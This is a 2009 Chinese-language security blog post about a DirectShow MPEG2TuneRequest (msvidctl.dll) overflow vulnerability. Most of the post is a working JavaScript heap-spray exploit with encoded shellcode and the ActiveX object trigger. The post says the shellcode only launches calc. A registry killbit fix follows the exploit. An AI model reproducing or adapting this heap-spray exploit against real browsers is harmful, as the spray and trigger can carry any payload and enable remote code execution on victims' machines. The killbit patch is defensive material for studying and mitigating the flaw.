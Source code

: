 ```yaml
---
title: DirectShow MPEG2TuneRequest 远程堆栈溢出漏洞利用程序Exploit+漏洞临时补丁
description: DirectShow0DAY出过一波，不过夜火我没太去注意，这波0DAY与第一波的DirectShow0DAY不同，这次的漏洞是DirectShow相关msvidctl.dll组件解析畸形MPEG2视频格式文件触发溢出，攻击者可以使用普通的javascript堆喷射方式远程执行任意代码。MicrosoftDirectShowMPEG2TuneRequest存在可被远程利用的堆栈溢出漏洞。
date: 2009-07-07 09:30:13
category: 漏洞信息
tags: ['缓冲区溢出', 'exploit', '漏洞信息', '0day']
post_id: 909
alias: Microsoft-DirectShow-MPEG2TuneRequest-Stack-Overflow-Exploit
ViewNums: 3210
---
```


DirectShow 0DAY出过一波，不过[夜火](/blog/)我没太去注意，这波[0DAY](/tags/0day)与第一波的DirectShow 0DAY 不同，这次的漏洞是[DirectShow相关msvidctl.dll组件解析畸形MPEG2视频格式文件触发溢出](/blog/microsoft-directshow-mpeg2tunerequest-stack-overflow-exploit)，攻击者可以使用普通的javascript堆喷射方式远程执行任意代码。

[Microsoft DirectShow MPEG2TuneRequest 存在可被远程利用的堆栈溢出漏洞](/blog/microsoft-directshow-mpeg2tunerequest-stack-overflow-exploit)。

关键代码如下：
-------------------------以下内容有危险，仅为研究使用--------------

var appllaa='0';
var nndx='%'+'u9'+'0'+'9'+'0'+'%u'+'9'+'0'+'9'+appllaa;
var dashell=unescape(nndx+"%u03eb%ueb59%ue805%ufff8%uffff%u4937%u4949%u4949%u4949%u4949" +
"%u4949%u4949%u4949%u4949%u5a51%u456a%u5058%u4230%u4130%u416b" +
"%u5541%u4132%u3242%u4242%u4142%u4230%u5841%u3850%u4241%u7875" +
"%u7969%u6d6c%u3038%u6544%u7550%u7350%u6e30%u516b%u7755%u4c4c" +
"%u414b%u656c%u3355%u4348%u3831%u4c6f%u304b%u464f%u4c78%u314b" +
"%u374f%u3450%u4a41%u624b%u4e69%u666b%u6e54%u666b%u6a61%u304e" +
"%u3931%u4f50%u4c69%u6f6c%u5974%u3450%u3534%u5957%u7951%u565a" +
"%u776d%u6f71%u7832%u6b6b%u6744%u714b%u6744%u7754%u3474%u4b35" +
"%u6e55%u436b%u466f%u6544%u3851%u506b%u4c66%u564b%u306c%u4c4b" +
"%u414b%u374f%u656c%u5a51%u6c4b%u654b%u4c4c%u674b%u6871%u6e6b" +
"%u7169%u654c%u6674%u5964%u4653%u4951%u6550%u6c34%u634b%u3470" +
"%u4b70%u4b35%u5470%u3438%u6e4c%u436b%u6670%u4e6c%u626b%u7550" +
"%u4c4c%u6e6d%u536b%u3758%u4a78%u554b%u4c59%u6d4b%u6e50%u6550" +
"%u6550%u4750%u6c70%u434b%u6558%u716c%u464f%u5a51%u4156%u3070" +
"%u4d56%u6c59%u4e38%u4963%u7150%u526b%u7570%u7138%u4b6e%u4b68" +
"%u3152%u6563%u4c38%u5958%u6e6e%u746a%u714e%u4b47%u7a4f%u7047" +
"%u6363%u5251%u634c%u5553%u4550");
var headersize=20;
var omybro=unescape(nndx);
var slackspace=headersize+dashell.length;
while(omybro.length<slackspace)
omybro+=omybro;
bZmybr=omybro.substring(0,slackspace);
shuishiMVP=omybro.substring(0,omybro.length-slackspace);
while(shuishiMVP.length+slackspace<0x30000)
shuishiMVP=shuishiMVP+shuishiMVP+bZmybr;
memory=new Array();
for(x=0;x<300;x++)
memory[x]=shuishiMVP+dashell;
var myObject=document.createElement('object');
DivID.appendChild(myObject);
myObject.width='1';
myObject.height='1';
myObject.data='./logo.gif';
myObject.classid='clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';

-------------------------------------

该shellcode会执行calc。

感谢代码分享者：咖啡。
感谢漏洞遗失者：~这里是马赛克~
来源：[Xeye](http://xeye.us/blog/2009/07/microsoft-directshow-mpeg2tunerequest-stack-overflow-exploit/)

===================**漏洞临时解决补丁**===================

KillBit相关组件,将以下内容保存为.reg文件双击导入即可

-------------------------------------

Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftInternet ExplorerActiveX Compatibility{0955AC62-BF2E-4CBA-A2B9-A63F772D46CF}]
"Compatibility Flags"=dword:00000400

-------------------------------------

补丁来源：[80SEC非官方八卦BLOG](http://hi.baidu.com/80sec/blog/item/fea49f17d6ca9358f3de329d.html)

